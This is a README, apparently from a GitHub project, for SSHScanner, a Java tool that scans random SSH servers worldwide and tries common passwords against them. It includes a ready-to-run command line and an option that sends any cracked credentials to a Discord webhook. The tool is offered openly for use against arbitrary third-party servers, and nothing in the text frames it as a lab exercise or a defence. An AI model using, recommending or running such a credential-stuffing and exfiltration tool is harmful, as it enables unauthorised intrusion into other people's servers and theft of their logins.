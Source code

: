 ## Description
This tool scans random SSH servers around the world and it tests the most used passwords

## Developers

You can reuse SSHScanner but make sure you comply with the [LICENSE](https://github.com/thisisnzed/SSHScanner/blob/main/LICENSE).

### Maven

```xml
<dependencies>
    <dependency>
        <groupId>com.thisisnzed</groupId>
        <artifactId>SSHScanner</artifactId>
        <version>1.0-SNAPSHOT</version>
    </dependency>
</dependencies>
```

## Lib

* **JSch** : http://www.jcraft.com/jsch/ 

## Usage

* I. Download the [latest release](https://github.com/thisisnzed/SSHScanner/releases) of SSHScanner
* II. Run the program with **java -jar SSHScanner.jar -combo combo.txt -threads 1 -port 22 -timeout 6000 -webhook "https://discord.com/api/webhooks/x/y" -verbose true**

## Arguments

Note: Each argument is optional

* **-combo <path>** | File containing all the "user:password" that the program will test for each host (default: combo.txt)
* **-threads <int>** | Number of threads launched (default: 1)
* **-port <int>** | Port that will be tested for each host (default: 22)
* **-timeout <int>** | Time (in ms) before the program marks a server as unavailable (default: 6000)
* **-webhook <url>** | Discord webhook where credentials will be sent (default: "")
* **-verbose <boolean>** | Whether or not to display failed attempts on the console (default: true)




